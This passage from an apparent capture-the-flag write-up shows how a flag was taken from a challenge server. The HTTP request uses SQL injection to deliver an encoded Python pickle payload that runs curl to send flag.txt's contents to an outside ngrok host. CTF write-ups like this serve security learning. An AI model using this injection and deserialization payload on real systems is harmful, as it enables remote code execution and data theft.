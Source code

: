 >![](../../zzz_res/attachments/ElfResources8.png)

## Exfiltrated the flag

Exploited the SQL Injection to send a request containing the serialized object (the full payload has been urlencoded in order to avoid issues related to special character inside the request):

![](../../zzz_res/attachments/ElfResources9.png)

```http
GET /0%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%27%67%41%53%56%57%77%41%41%41%41%41%41%41%41%43%4d%42%58%42%76%63%32%6c%34%6c%49%77%47%63%33%6c%7a%64%47%56%74%6c%4a%4f%55%6a%45%42%6a%64%58%4a%73%49%47%68%30%64%48%42%7a%4f%69%38%76%4d%6a%49%35%59%69%30%35%4d%79%30%31%4d%53%30%31%4e%43%30%78%4f%44%63%75%5a%58%55%75%62%6d%64%79%62%32%73%75%61%57%38%76%59%47%4e%68%64%43%42%6d%62%47%46%6e%4c%6e%52%34%64%48%78%69%59%58%4e%6c%4e%6a%52%67%6c%49%57%55%55%70%51%75%27 HTTP/1.1
Host: challs.htsp.ro:13001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
```
